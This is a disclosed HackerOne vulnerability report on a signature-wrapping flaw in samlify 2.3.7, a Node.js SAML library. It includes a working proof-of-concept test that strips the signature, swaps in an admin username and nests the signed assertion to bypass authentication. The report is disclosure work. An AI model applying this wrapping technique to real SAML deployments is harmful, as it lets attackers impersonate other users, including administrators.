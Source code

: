 # Samlify is vulnerable to signature wrapping

## Report Details
- **Report ID**: 356284
- **URL**: https://hackerone.com/reports/356284
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-23T07:11:09.848Z
- **Disclosed**: 2018-10-23T07:54:50.161Z

## Reporter
- **Username**: webtonull
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a signature wrapping weakness in samlify
It allows an attacker to modify a SAML token received from the IdP before validating it with the service provider

# Module

**module name:** samlify
**version:** 2.3.7
**npm page:** `https://www.npmjs.com/package/samlify`

## Module Description

Highly configuarable Node.js SAML 2.0 library for Single Sign On

## Module Stats

> Replace stats below with numbers from npm’s module page:

1084 downloads in the last week

# Vulnerability

## Vulnerability Description

It's possible to wrap the signature of a SAML response, and insert a new username in the original token, thus make it appear as though a different user was authenticated.

## Steps To Reproduce:

Clone the github repo, put this in `test/flow.ts` and run `npm run test`:
```

test('should reject signature wrapped response', async t => {
  // sender (caution: only use metadata and public key when declare pair-up in oppoent entity)
  const user = { email: 'user@esaml2.com' };
  const { id, context: SAMLResponse } = await idpNoEncrypt.createLoginResponse(sp, sampleRequestInfo, 'post', user, createTemplateCallback(idpNoEncrypt, sp, user));
  // receiver (caution: only use metadata and public key when declare pair-up in oppoent entity)

  //Decode
  var buffer = new Buffer(SAMLResponse, "base64");
  var xml = buffer.toString();
  //Create version of response without signature
  var stripped = xml
    .replace(/<ds:Signature[\s\S]*ds:Signature>/, "");
  //Create version of response with altered IDs and new username
  var outer = xml
    .replace(/assertion" ID="_[0-9a-f]{3}/g, 'assertion" ID="_000')
    .replace("user@esaml2.com", "admin@esaml2.com");
  //Put stripped version under SubjectConfirmationData of modified version
  var xmlWrapped = outer.replace(/<saml:SubjectConfirmationData[^>]*\/>/, "<saml:SubjectConfirmationData>" + stripped.replace('<?xml version="1.0" encoding="UTF-8"?>', "") + "</saml:SubjectConfirmationData>");
  const wrappedResponse = new Buffer(xmlWrapped).toString("base64");

  const { samlContent, extract } = await sp.parseLoginResponse(idpNoEncrypt, 'post', { body: { SAMLResponse: wrappedResponse } });
  //should probalby be like this -> const error = await t.throws(sp.parseLoginResponse(idpNoEncrypt, 'post', { body: { SAMLResponse: wrappedResponse } }));
  //This tampering goes undetected....and only fails because there are now two names
  t.is(extract.nameid, 'user@esaml2.com');
});
```

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- Ubuntu 16.04
- v7.4.0
- 6.0.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N 

I will try to contact the maintainer. I did not want to open an issue as that would make it obvious what the problem was.

## Impact

Authentication bypass

## Attachments
No attachments

